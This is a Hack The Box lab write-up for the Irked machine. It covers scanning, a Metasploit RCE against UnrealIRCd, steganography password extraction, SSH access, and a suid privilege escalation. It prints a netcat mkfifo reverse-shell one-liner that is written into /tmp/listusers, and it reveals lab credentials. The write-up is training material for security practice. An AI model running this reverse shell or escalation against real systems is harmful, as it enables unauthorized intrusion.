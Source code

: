 ```yaml
---
layout: post
title: Hack The Box - Irked
categories: hack-the-box
tags: [linux, steganography, web, ssh, reverse-engineering, binary-exploitation]
description: My write-up for Irked from Hack The Box.
image: /hackthebox/irked/0.png
---
```


<hr>
## Quick Summary
<br> Hey guys, today Irked retired and here's my write-up about it. It was an easy straightforward machine, no rabbit holes and such things. To get an initial shell on the box we will exploit an RCE vulnerable irc server called `UnrealIRCd`. After getting a shell we will find a backup file which has a password. We will use that password to get a hidden text file from an image (steg). That text file contains another password which we will use to get ssh access as another user. Finally for privilege escalation there is an `suid` binary that executes a file, and we control that file so we can get a reverse shell as root. It's a linux box and its ip is `10.10.10.117`. I added it to `/etc/hosts` as `irked.htb`. Let's jump right in !
![](/images/hackthebox/irked/0.png)
<hr>
## Nmap
<br> As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC irked.htb`
![](/images/hackthebox/irked/1.png)
<br> There is ssh running on port 22 and http running on port 80. Let's take a look at http.
<br>
<hr>
## HTTP Initial Enumeration
![](/images/hackthebox/irked/2.png)
<br> There is only that image and a message saying : `IRC is almost working!`, Source also has nothing interesting :
![](/images/hackthebox/irked/3.png)
<br> We have a hint which is irc, let's check that. If we didn't find anything then we will continue with http.
<br>
<hr>
## IRC
<br> I searched for irc and found [here](https://en.wikipedia.org/wiki/Internet_Relay_Chat#Technical_information) That if there is an irc server running on the machine, then probably it will be in the port range from 6000 to 7000. So I ran another nmap scan :
`nmap -p 6000-7000 -sV -sT -sC irked.htb`
![](/images/hackthebox/irked/4.png)
<br> There is an irc server running on port 6697 called `UnrealIRCd`. There are some known vulnerabilities for `UnrealIRCd`, One of them is a Remote Code Execution and there is a metasploit module for it :
![](/images/hackthebox/irked/5.png)
<br> Let's check if the server is vulnerable to it.
![](/images/hackthebox/irked/6.png)
<br>
<br>
![](/images/hackthebox/irked/7.png)
<br> It worked and we got a shell as `ircd` :
![](/images/hackthebox/irked/8.png)
<hr>
## Steg in `irked.jpg`, SSH as `djmardov`
<br> There are two users on the box : `ircd` and `djmardov`. I checked `/home/ircd` and there was nothing interesting. In `/home/djmardov` I didn't find `user.txt` :
![](/images/hackthebox/irked/9.png)
<br> I tried to go into `.ssh` but I got `Permission denied` :
![](/images/hackthebox/irked/10.png)
<br> I checked other directories like `Desktop`, `Downloads`, `Documents` etc... And in `Documents` I found `user.txt` and a file called `.backup` :
![](/images/hackthebox/irked/11.png)
<br>
<br>
`cat .backup`
![](/images/hackthebox/irked/12.png)
```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
<br> It gives us a hint about some steg backup, we also get something that looks like a password : `UPupDOWNdownLRlrBAbaSSss`. But where will we use that password ? Remember the image we saw earlier on that apache server ?
![](/images/hackthebox/irked/2.png)
<br>
<br>
![](/images/hackthebox/irked/3.png)
<br> I downloaded it then used `steghide` to check if there is any hidden file.
<br> Note : I have a list for some steganography tools, If you are not familiar with steg you can check it [here](/lists/stego).
`wget http://irked.htb/irked.jpg`
![](/images/hackthebox/irked/13.png)
<br>
<br>
`steghide info irked.jpg`
![](/images/hackthebox/irked/14.png)
<br> There is a hidden text file called `pass.txt`, Let's extract it :
`steghide extract -sf irked.jpg`
![](/images/hackthebox/irked/15.png)
<br>
<br>
`cat pass.txt`
![](/images/hackthebox/irked/16.png)
<br> We got the password : `Kab6h+m+bbp2J:HG`, let's try to login as `djmardov` :
![](/images/hackthebox/irked/17.png)
<br> We owned user !
<br>
<hr>
## Exploiting `viewuser`, Privilege Escalation to `root`
<br> After some enumeration, I searched for `suid` binaries and in `/usr/bin` I found a binary called `viewuser`.
`find /usr/bin/ -perm -4000`
![](/images/hackthebox/irked/18.png)
<br> It seems interesting so I decided to check it.
`viewuser`
![](/images/hackthebox/irked/19.png)
<br> It shows logged in users, but we don't care about that. The only thing we care about is the last line : `/tmp/listusers: 1: /tmp/listusers: djmardov: not found`. It seems like it was trying to do something with the file `/tmp/listusers` which doesn't exist. I downloaded `viewuser` to try some stuff :
`scp djmardov@irked.htb:/usr/bin/viewuser ./`
![](/images/hackthebox/irked/20.png)
<br> When I did `ltrace` on the binary I found that it executes `/tmp/listusers` :
![](/images/hackthebox/irked/21.png)
<br> And since this binary runs as root, then it also executes `/tmp/listusers` as root. So we can simply get a reverse shell by putting the payload in `/tmp/listusers`, Then after running the binary again it should execute the payload.
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f" > /tmp/listusers`
![](/images/hackthebox/irked/22.png)
<br> Everything is fine, let's check our listener :
![](/images/hackthebox/irked/23.png)
<br>
<br>
![](/images/hackthebox/irked/24.png)
<br> Now we own root ! 
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Hack The Box write-up : [Hack The Box - Teacher](/hack-the-box/teacher/)
<br> Next Hack The Box write-up : [Hack The Box - BigHead](/hack-the-box/bighead/)
<hr>

